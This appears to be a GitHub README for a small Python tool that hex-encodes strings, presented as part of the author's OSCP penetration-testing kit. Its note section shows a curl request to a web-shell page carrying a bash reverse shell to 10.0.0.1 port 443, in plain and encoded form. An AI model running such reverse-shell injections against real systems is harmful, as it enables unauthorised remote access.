 # ascii2hex
Simple python code for convert ASCII string to HEX string

# how to run
That python code allow to convert ASCII string to hex in 2 type format, "%" or "\x", or other ones you need.
You can select the format by using -p flag and specefie the pattern.

# example
```
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>'

%3c%3f%20%70%68%70%69%6e%66%6f%28%29%20%3f%3e
```
```
└─$ python3 ./ascii2hex.py -s '<? phpinfo() ?>' -p \\x

\x3c\x3f\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x20\x3f\x3e
```
# tool note
this is part from my OSCP tools, the idea it so have the ability to run reverse shell from injection point over php file, since the url can't using space value we must convert each space to hex value, so that tool do that for us.
this tool is vulable since if we can inject code to some url and we need to insert more complicated request to the injection point (paramether) we can use ascii2hex:
```
curl "http://192.168.183.91/cmd.php?cmd=$(ascii2hex "/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'")"                                        
```
in that case the request will be as follow:
```
curl "http://192.168.183.91/cmd.php?cmd=%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%30%2e%30%2e%31%2f%34%34%33%20%30%3e%26%31%27"
```
